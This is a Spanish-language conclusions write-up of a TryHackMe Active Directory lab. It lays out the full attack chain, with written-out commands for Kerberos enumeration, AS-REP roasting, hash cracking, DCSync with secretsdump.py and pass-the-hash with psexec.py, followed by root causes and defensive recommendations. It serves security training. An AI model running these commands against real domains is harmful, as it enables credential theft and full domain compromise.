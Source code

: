 # Conclusiones – Attacktive Directory (TryHackMe)

## ✅ Resumen del compromiso
Se comprometió un **Domain Controller** de Active Directory (`AttacktiveDirectory.spookysec.local`) partiendo **sin credenciales** y aprovechando:
1. **Enumeración Kerberos** para descubrir usuarios válidos.
2. **AS-REP Roasting** sobre un usuario vulnerable (`svc-admin`).
3. **Crack del hash** AS-REP para obtener la contraseña en claro.
4. Acceso a **SMB** y lectura de `backup_credentials.txt` en el share `backup`.
5. Uso de esas credenciales para ejecutar **DCSync** con `secretsdump.py` y volcar **hashes del dominio**.
6. **Pass-the-Hash** sobre `Administrator` con `psexec.py` → shell **SYSTEM**.
7. Exfiltración de **flags** desde los escritorios de `svc-admin`, `backup` y `Administrator`.

---

## 🔗 Cadena de ataque (Kill Chain)
- **Descubrimiento/Recon**: `nmap` revela Kerberos/LDAP/SMB/RPC/DNS/RDP/WinRM → DC clásico.
- **Enumeración**:
  - `kerbrute userenum` → usuarios válidos (james, robin, svc-admin, etc.).
  - `enum4linux` → SID de dominio y grupos estándar (sin grandes fugas).
- **Obtención de credenciales**:
  - `GetNPUsers.py` → `$krb5asrep$23$` para **svc-admin** (sin preauth).
  - `john` → contraseña `management2005`.
- **Movimiento lateral / Acceso a datos**:
  - `smbclient` → share **backup** → `backup_credentials.txt` (Base64).
  - Decodificación → credenciales de **backup**.
- **Dominio**:
  - `secretsdump.py -just-dc` con **backup** → hashes NTLM (incl. `Administrator`) y claves Kerberos.
  - `psexec.py` con **Pass-the-Hash** → **NT AUTHORITY\SYSTEM** en el DC.
- **Objetivos**:
  - Lectura de flags en `Desktop` de `svc-admin`, `backup`, `Administrator`.

---

## 🧰 Herramientas clave y comandos usados
- **Nmap**
  - `nmap -Pn -sV -sC -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985 spookysec.local`
- **Kerberos**
  - `kerbrute userenum --dc 10.10.19.151 -d spookysec.local users.txt`
  - `GetNPUsers.py spookysec.local/svc-admin -no-pass`
- **Cracking**
  - `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
- **SMB**
  - `smbclient -L \\10.10.19.151\\ -U svc-admin`
  - `smbclient \\10.10.19.151\\backup -U svc-admin` → `get backup_credentials.txt`
- **DCSync / NTDS**
  - `secretsdump.py spookysec.local/backup:'<PASS>'@10.10.19.151 -just-dc`
- **PTH / Shell**
  - `psexec.py spookysec.local/Administrator@10.10.19.151 -hashes :<NTLMHASH>`

---

## 🔍 Hallazgos de seguridad (Root Causes)
1. **Usuario Kerberos sin preautenticación** (`svc-admin` con *DONT_REQUIRE_PREAUTH*).
2. **Credenciales sensibles en texto (Base64)** dentro de un **share de backup** accesible.
3. **Cuenta `backup` con privilegios de replicación** (permite **DCSync**).
4. **Exposición de múltiples servicios de AD** a toda la red (Kerberos/LDAP/SMB/WinRM/RDP) sin segmentación.

---

## 🛡️ Recomendaciones defensivas
- **Habilitar preautenticación Kerberos** en *todas* las cuentas de usuario/servicio.
- **Rotar y endurecer contraseñas**; aplicar **políticas de complejidad** y **bloqueo**.
- **Eliminar credenciales en texto** de shares (`backup`, `NETLOGON`, `SYSVOL`); revisar GPO de logon scripts.
- **Principio de mínimo privilegio**: retirar permisos de **replicación** a cuentas no administrativas (evitar DCSync).
- **Auditar SPNs y cuentas de servicio**; usar **gMSA** donde sea posible.
- **Segmentación de red** y **firewall**: restringir 88/389/445/5985/3389 a administradores y hosts autorizados.
- **Monitoreo y alertas**:
  - Eventos de **AS-REP** anómalos y fallos Kerberos.
  - Llamadas **DRSUAPI** inusuales (indicadores de DCSync).
  - Creación de servicios remotos (`RemComSvc`/`PSEXESVC`) y actividades por SMB/WMI.

---

## 🧠 Lecciones aprendidas
- En AD, **una mala configuración Kerberos** + **fuga mínima** (texto/base64) + **permisos excesivos** escalan a **compromiso total de dominio** en pocos pasos.
- Centralizar y **automatizar la recolección de evidencias** reduce el tiempo de análisis y mejora el reporte.

---
